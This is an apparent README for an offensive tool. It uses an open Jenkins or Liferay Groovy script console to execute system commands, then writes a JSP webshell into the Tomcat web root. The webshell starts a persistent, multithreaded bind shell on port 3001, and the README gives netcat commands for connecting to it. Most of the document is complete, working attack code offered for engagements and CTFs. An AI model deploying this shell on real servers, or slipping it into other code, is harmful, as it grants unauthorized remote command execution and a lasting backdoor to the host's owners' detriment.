 # Bind Shell From Groovy Script Console
a script to write JSP webshells and execute them via the web root. useful for engagements with jenkins\liferay where the script console is enabled and the network firewall is blocking outgoing traffic.
Built for Offensive security tasks and CTF junkies who hate fragile shells.

#### Info
This Groovy script generates a JSP bind shell that supports multithreading.
If you hit CTRL+C or lose the connection, you can simply reconnect.
By default, it listens on port 3001, but you can change that anytime.

#### How to use
0. browse to the groovy script console GUI
2. Figure out where the web root is (tomcat root), this can be performed with `pwd`,`ls`,`dir`

here are some known remote  command executin scripts:
1. POC for simple commands: `pwd`,`ls`,`dir` `cd` ( use to figure out where the web root is)
```
def cmd="YOURCOMMAND-dir"
def sout = new StringBuilder(), serr = new StringBuilder()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

this is where your bind shell will live, if you execute it correctly then you will be able to aceess the shell at `site\threaded.jsp`

paste the following into your groovy console:
```
new File("<PATHTOTOMCAT>/tomcat/ROOT/threaded.jsp").text ='''<%@ page import="java.io.*" %>
<%@ page import="java.net.*" %>
<%!
    // Static block to ensure the listener thread is only started once.
    static {
        new Thread(new Runnable() {
            public void run() {
                // --- CONFIGURATION ---
                int port = 3001; // The port to listen on.
                // -------------------

                try {
                    ServerSocket serverSocket = new ServerSocket(port);
                    // This is the key change: an infinite loop to accept multiple clients.
                    while (true) {
                        // Wait for a client to connect. This call blocks until a connection is made.
                        Socket clientSocket = serverSocket.accept();
                        
                        // When a client connects, create a NEW THREAD to handle them.
                        // This allows the main loop to go back and wait for the next client.
                        new Thread(new ClientHandler(clientSocket)).start();
                    }
                } catch (Exception e) {
                    // Fail silently in the background.
                }
            }
        }).start();
    }

    // This class handles the logic for a single connected client.
    static class ClientHandler implements Runnable {
        private final Socket clientSocket;

        ClientHandler(Socket socket) {
            this.clientSocket = socket;
        }

        public void run() {
            try {
                String shell = System.getProperty("os.name").toLowerCase().startsWith("windows") ? "cmd.exe" : "/bin/sh";
                Process process = Runtime.getRuntime().exec(shell);

                // Redirect I/O for this specific client
                new Thread(new StreamRedirector(process.getInputStream(), clientSocket.getOutputStream())).start();
                new Thread(new StreamRedirector(process.getErrorStream(), clientSocket.getOutputStream())).start();
                new Thread(new StreamRedirector(clientSocket.getInputStream(), process.getOutputStream())).start();

                process.waitFor();
            } catch (Exception e) {
                // An exception here usually means the client disconnected.
            } finally {
                try { clientSocket.close(); } catch (IOException e) {}
            }
        }
    }

    // Helper class to redirect streams. No changes needed here.
    static class StreamRedirector implements Runnable {
        private final InputStream in;
        private final OutputStream out;
        StreamRedirector(InputStream in, OutputStream out) { this.in = in; this.out = out; }
        public void run() {
            try {
                byte[] buffer = new byte[4096];
                int bytesRead;
                while ((bytesRead = in.read(buffer)) != -1) {
                    out.write(buffer, 0, bytesRead);
                    out.flush();
                }
            } catch (IOException e) {}
        }
    }
%>
<html>
<body>
    <h1>Persistent Bind Shell Initialized</h1>
    <p>A persistent listener should now be active on port <strong>3001</strong>.</p>
</body>
</html>
'''
```
3. edit the location to save the shell to the correct webroot location
4. hit save and browse to your webshell so it activates `http://site/threaded.jsp`
5. connect to the bind shell via netcat:
```
 example 1:
rlwrap -cAr nc -nv HOST-IP 3001

example 2:
rlwrap -cAr nc -nv 172.16.30.10  3001
```
